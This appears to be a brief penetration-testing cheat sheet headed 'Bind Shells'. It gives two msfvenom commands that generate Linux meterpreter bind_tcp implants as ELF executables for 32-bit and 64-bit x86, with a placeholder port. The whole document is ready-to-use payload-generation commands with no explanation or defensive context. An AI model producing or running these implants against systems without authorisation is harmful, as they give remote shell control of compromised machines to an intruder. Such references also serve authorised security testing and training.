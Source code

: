 # Bind Shells

1. x86 (32-bit) Payloads

```
$ msfvenom -p linux/x86/meterpreter/bind_tcp lport=<PORT> -f elf -o implant-x86
```

2. x86-64 (64-bit) Payloads

```
$ msfvenom -p linux/x64/meterpreter/bind_tcp lport=<PORT> -f elf -o implant-x64
```